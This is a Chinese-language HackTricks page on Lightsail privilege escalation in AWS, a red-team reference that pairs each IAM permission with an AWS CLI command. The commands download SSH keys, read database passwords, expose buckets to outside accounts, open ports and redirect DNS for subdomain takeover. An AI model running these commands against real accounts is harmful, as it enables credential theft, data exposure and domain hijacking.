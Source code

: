 # AWS - Lightsail Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lightsail

有关 Lightsail 的更多信息，请查看：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
重要的是要注意，Lightsail **不使用属于用户的 IAM 角色**，而是使用 AWS 管理的账户，因此您无法利用此服务进行权限提升。然而，**敏感数据**如代码、API 密钥和数据库信息可能会在此服务中找到。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

此权限将允许您获取访问实例的 SSH 密钥：
```
aws lightsail download-default-key-pair
```
**潜在影响：** 在实例中查找敏感信息。

### `lightsail:GetInstanceAccessDetails`

此权限将允许您生成 SSH 密钥以访问实例：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在影响：** 在实例中查找敏感信息。

### `lightsail:CreateBucketAccessKey`

此权限将允许您获取访问存储桶的密钥：
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在影响：** 在存储桶中找到敏感信息。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

此权限将允许您获取访问数据库的凭据：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在影响：** 在数据库中找到敏感信息。

### `lightsail:UpdateRelationalDatabase`

此权限将允许您更改访问数据库的密码：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

如果数据库不是公开的，您也可以通过以下权限将其公开

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在影响：** 在数据库中查找敏感信息。

### `lightsail:OpenInstancePublicPorts`

此权限允许向互联网开放端口。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:PutInstancePublicPorts`

此权限允许将端口开放到互联网。请注意，该调用将关闭未在其上指定的任何已打开端口。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:SetResourceAccessForBucket`

此权限允许为实例提供对存储桶的访问，而无需任何额外凭据。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在影响：** 可能新获得对包含敏感信息的存储桶的访问权限。

### `lightsail:UpdateBucket`

拥有此权限的攻击者可以授予自己的 AWS 账户对存储桶的读取访问权限，甚至可以将存储桶公开给所有人：
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在影响：** 可能新获得对包含敏感信息的存储桶的访问。

### `lightsail:UpdateContainerService`

通过此权限，攻击者可以授予对容器服务的私有 ECR 的访问权限。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在影响：** 从私有 ECR 获取敏感信息

### `lightsail:CreateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的 IP 地址（子域接管），或制作一个 SPF 记录，使其能够伪造来自该域的电子邮件，甚至将主域设置为自己的 IP 地址。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响：** 接管一个域名

### `lightsail:UpdateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的IP地址（子域接管），或制作一个SPF记录，使其能够伪造来自该域名的电子邮件，甚至将主域名设置为自己的IP地址。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响：** 接管一个域名

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
